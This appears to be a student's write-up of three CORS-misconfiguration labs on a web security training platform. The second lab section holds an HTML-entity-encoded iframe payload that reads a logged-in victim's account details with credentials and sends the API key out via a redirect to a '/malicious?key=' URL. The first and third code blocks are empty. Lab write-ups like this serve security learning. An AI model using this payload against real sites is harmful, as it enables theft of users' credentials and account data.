









## First Lab
I did everything as I was supposed to do, yet I could not get the API of admin. Nevertheless, I will attach the things I have done and I honestly don't know why exploit server did not return admin api. 

The script that I used:
>      

## Second Lab
Second lab was almost the same as the first one, fortunately I got it working. The only difference was using an <iframe> tag and using the sandbox property to contain our malicious code in it, also we had to encode our script first, in order to avoid quotation collisions in a code. As a result, we got our api of admin, which we submitted in the home page of lab source page.
Source code: 
>                <iframe 
                    sandbox="allow-forms allow-scripts allow-top-navigation"      srcdoc="&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x76;&#x61;&#x72;&#x20;&#x72;&#x65;&#x71;&#x20;&#x3d;&#x20;&#x6e;&#x65;&#x77;&#x20;&#x58;&#x4d;&#x4c;&#x48;&#x74;&#x74;&#x70;&#x52;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x28;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x70;&#x65;&#x6e;&#x28;&#x22;&#x67;&#x65;&#x74;&#x22;&#x2c;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x30;&#x61;&#x62;&#x34;&#x30;&#x30;&#x39;&#x66;&#x30;&#x33;&#x65;&#x34;&#x33;&#x36;&#x61;&#x66;&#x38;&#x35;&#x64;&#x35;&#x32;&#x36;&#x34;&#x39;&#x30;&#x30;&#x37;&#x38;&#x30;&#x30;&#x62;&#x38;&#x2e;&#x77;&#x65;&#x62;&#x2d;&#x73;&#x65;&#x63;&#x75;&#x72;&#x69;&#x74;&#x79;&#x2d;&#x61;&#x63;&#x61;&#x64;&#x65;&#x6d;&#x79;&#x2e;&#x6e;&#x65;&#x74;&#x2f;&#x61;&#x63;&#x63;&#x6f;&#x75;&#x6e;&#x74;&#x44;&#x65;&#x74;&#x61;&#x69;&#x6c;&#x73;&#x22;&#x2c;&#x74;&#x72;&#x75;&#x65;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x6e;&#x6c;&#x6f;&#x61;&#x64;&#x20;&#x3d;&#x20;&#x28;&#x29;&#x20;&#x3d;&#x3e;&#x20;&#x7b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x77;&#x69;&#x6e;&#x64;&#x6f;&#x77;&#x2e;&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x2e;&#x68;&#x72;&#x65;&#x66;&#x20;&#x3d;&#x20;&#x22;&#x2f;&#x6d;&#x61;&#x6c;&#x69;&#x63;&#x69;&#x6f;&#x75;&#x73;&#x3f;&#x6b;&#x65;&#x79;&#x3d;&#x22;&#x20;&#x2b;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x72;&#x65;&#x73;&#x70;&#x6f;&#x6e;&#x73;&#x65;&#x54;&#x65;&#x78;&#x74;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x7d;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x77;&#x69;&#x74;&#x68;&#x43;&#x72;&#x65;&#x64;&#x65;&#x6e;&#x74;&#x69;&#x61;&#x6c;&#x73;&#x20;&#x3d;&#x20;&#x74;&#x72;&#x75;&#x65;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x73;&#x65;&#x6e;&#x64;&#x28;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;"
                    ></iframe>

## Third Lab
We did find the Xss vulnerability through product id injection and found CORS vulnerability by trying to find the filtered origin source and we also have achieved that. However, when it came down to injecting the encoded code as we did in a second lab, we did not obtain any results and same as in a first lab work, I do not know why. 
Source code(we encoded the script code for cors vulnerability into xss code injection, cause it is url): 
>     

